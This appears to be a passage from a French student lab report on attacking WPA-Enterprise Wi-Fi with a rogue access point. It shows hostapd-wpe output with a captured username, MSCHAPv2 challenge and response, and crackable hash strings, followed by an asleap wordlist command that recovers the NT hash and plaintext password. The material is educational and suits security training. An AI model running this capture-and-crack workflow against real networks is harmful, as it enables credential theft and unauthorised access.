 Vous trouverez tout les fichiers générés par l'outil [ici](./files/HEIG-VD/)

Voici aussi l'output de la capture de hostapd-wpe :

```bash

wlan0: STA 2e:e2:97:8d:d6:4f IEEE 802.1X: Identity received from STA: 'einet/joachim.bailat'


mschapv2: Wed May 24 08:02:14 2023
         username:      einet/joachim.bailat
         challenge:     00:8f:09:ce:08:f8:7f:c1
         response:      c5:24:d3:41:51:cd:5c:05:b2:ad:e3:84:76:c3:e2:9a:79:ed:d5:c3:c5:ce:cf:26
         jtr NETNTLM:           einet/joachim.bailat:$NETNTLM$008f09ce08f87fc1$c524d34151cd5c05b2ade38476c3e29a79edd5c3c5cecf26
         hashcat NETNTLM:       einet/joachim.bailat::::c524d34151cd5c05b2ade38476c3e29a79edd5c3c5cecf26:008f09ce08f87fc1
wlan0: STA 2e:e2:97:8d:d6:4f IEEE 802.1X: Identity received from STA: 'einet/joachim.bailat'
wlan0: STA 2e:e2:97:8d:d6:4f IEEE 802.11: disassociated
wlan0: STA 2e:e2:97:8d:d6:4f IEEE 802.11: deauthenticated due to inactivity (timer DEAUTH/REMOVE)

```


---

> **_Question:_** Quel type de hash doit-on indiquer à john ou l'outil que vous avez employé pour craquer le handshake ?
> 
> **_Réponse:_** Dans notre cas nous avons fait usage de l'outil [asleap](https://www.kali.org/tools/asleap/) :

```
asleap -C 00:8f:09:ce:08:f8:7f:c1 -R c5:24:d3:41:51:cd:5c:05:b2:ad:e3:84:76:c3:e2:9a:79:ed:d5:c3:c5:ce:cf:26 -W /usr/share/wordlists/rockyou.txt 
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
Using wordlist mode with "/usr/share/wordlists/rockyou.txt".
	hash bytes:       eff6
	NT hash:          e24106942bf38bcf57a6a4b29016eff6
	password:         buttercup

```
Cet outil prends le `challenge` -C et la `reponse` -R issus de la sortie de `hostapd-wpe` et une wordlist (rockyou.txt)

Après quelques recherches, il semblerait que pour hashcat il faille utilisé l'argument -m 5500 correspondant au hashtype "5500	NetNTLMv1 / NetNTLMv1+ESS" [selon leur doc](https://hashcat.net/wiki/doku.php?id=example_hashes)

---

> **_Question:_** Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
> 
> **_Réponse:_** Selon la [doc fournit sur le repo](https://github.com/OpenSecurityResearch/hostapd-wpe) :
